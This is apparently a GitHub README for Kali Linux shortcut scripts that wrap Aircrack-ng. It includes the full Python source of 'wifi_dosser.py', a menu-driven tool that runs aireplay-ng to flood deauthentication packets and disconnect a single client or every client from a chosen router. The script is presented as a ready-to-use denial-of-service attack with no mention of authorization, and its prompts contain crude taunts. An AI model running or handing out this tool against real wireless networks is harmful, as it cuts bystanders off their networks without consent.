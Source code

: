 # Kali-Linux-Wifi-Short-Cut-Scripts
These scripts consist of an easier, shorter way to do things via wireless attacks using Aircrack-ng suite of network tools. Make sure to give credit to Thomas d'Otreppe de Bouvette for original code. These are just short cuts, without having to pass in commands.

#files included
For Scanning network traffic
-------------------------------------
FILE: __wifi_scanner.py__

USE: Scan *most traffic* on specified NIC using airodump-ng (monitor mode must be enabled, may give error on NIC with promiscuous mode enabled)



For Scanning traffic specific network
--------------------------------------
FILE: __get_client.py__

USE: Scan *most traffic* on specified network using airodump-ng (monitor mode must be enabled, may give error on NIC with promiscuous mode enabled)

This can be used to *directly monitor* 802.11


For Deauthentication attacks (IEEE 802.11) NOTE: *IEEE 802.11w is more secure!*
--------------------------------------
FILE: __wifi_dosser.py__ -> (Kali-Linux-Wifi-Short-Cut-Scripts/wifi_dosser.py)

USE: Send deauthentication packets to client connected to router, or to all clients on router



```python
import time
import subprocess
from datetime import datetime

#start program
class DeauthenticationAttack:
	def __init__(self, option, mac_address, kick_client, kick_all, iface, router_bssid_one, router_bssid_two, iface_one, iface_two):
		self.option = option
		self.mac_address
		self.kick_client = kick_client
		self.kick_all = kick_all
		self.iface = iface
		self.router_bssid_one = router_bssid_one
		self.router_bssid_two = router_bssid_two
		self.iface_one = iface_one
		self.iface_two = iface_two

	@classmethod
	def kick_client_from_router(cls):
		cls.router_bssid_one = raw_input('[+] Enter BSSID of router: ')
		print('[+] Router MAC address set to: {}'.format(cls.router_bssid_one))
		time.sleep(2)
		cls.kick_client = raw_input('[+] Enter client MAC address to kick: ')
		print('[+] Client MAC address set to: {}'.format(cls.kick_client))
		cls.iface_one = raw_input('[+] Enter interface')
		print('[+] Interface set to: {}'.format(cls.iface_one))
		launch_attack = raw_input('[+] Attack ready to launch! Launch attack(y/n): ')
		if(launch_attack == 'y') or (launch_attack == 'yes'):
			print('[+] Shits about to get realz...')
			time.sleep(3)
			launch_dos_attack = 'aireplay-ng -0 0 -a {} -c {} {}'.format(cls.router_bssid_one, cls.kick_client,
															cls.iface_one)
			subprocess.call(launch_dos_attack, shell=True)
		elif(launch_attack == 'n') or (launch_attack == 'no'):
			print('[+] Ahh what a waste of time you sissy ass bitch! Bye...dont come back \#LuLz')
			time.sleep(3)
			exit()
	@classmethod
	def kick_all_from_router(cls):
		cls.router_bssid_two = raw_input('[+] Enter BSSID of router: ')
		cls.iface_two = raw_input('[+] Enter interface to use: ')
		print('[+] Interface set to: {}'.format(cls.iface_two))
		launch_the_attack = raw_input('[+] Attack ready to launch! Launch attack(y/n): ')
		if(launch_the_attack == 'y') or (launch_the_attack == 'yes'):
			print('[+] Shits about to get realz...')
			time.sleep(3)
			launch_da_dos_attack = 'aireplay-ng -0 0 -a {} {}'.format(cls.router_bssid_two, cls.iface_two)
			subprocess.call(launch_da_dos_attack, shell=True)

	@classmethod
	def get_option(cls):
		print(""" 
		Wifi Dosser v0.1
		---------------------------
		1.) Kick a client
		2.) Kick all from router
		""")
		cls.option = raw_input('[+] Select an option from above: ')
		if(cls.option == str(1)):
			print('[+] Option set to: 1')
			time.sleep(2)
			DeauthenticationAttack.kick_client_from_router()
		elif(cls.option == str(2)):
			print('[+] Option set to: 2')
			time.sleep(2)
			DeauthenticationAttack.kick_all_from_router()



DeauthenticationAttack.get_option()











#end program
```
